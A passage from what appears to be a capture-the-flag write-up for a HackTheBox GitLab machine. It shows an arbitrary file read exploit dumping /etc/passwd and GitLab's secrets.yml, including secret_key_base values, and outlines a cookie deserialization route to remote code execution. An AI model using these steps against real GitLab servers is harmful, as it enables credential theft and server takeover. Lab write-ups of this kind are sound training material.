 ```terminal
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

----------------------------------------
```

Great! We got file read, but what else to read?! I tried to get some ssh keys but didn't work.

We can see the author of the script has provided the [official report](https://hackerone.com/reports/827052) of this vulnerability, and the researcher who found it also provides a way to get remote code execution.

![](5.png)

## **Foothold**

### Method #2

To get an RCE we need to exploit a deserialization vulnerability of the `experimentation_subject_id` cookie. So wee need to create a malicious cookie that when it gets decode our code would get executed.

First we need to grab the secret key from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`

```terminal
[>] Absolute Path to File : /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml                                                                      
[!] Creating an Issue...                                                                                                                                      
[+] Issue Created Successfully!                                                                                                                               
[!] Moving Issue...                                                                                                                                           
[+] Issue Moved Successfully!                                                                                                                                 
[+] File URL : https://git.laboratory.htb/sirius/ProjectTwo/uploads/b837789efbfb4cc8f63b0ad3ca755bca/secrets.yml
                                                                               
> /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml      
----------------------------------------                            
                                                                               
# This file is managed by gitlab-ctl. Manual changes will be        
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb  
# and run `sudo gitlab-ctl reconfigure`.                                                                                                                      
                                                                               
---                                                                            
production:                                                                    
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```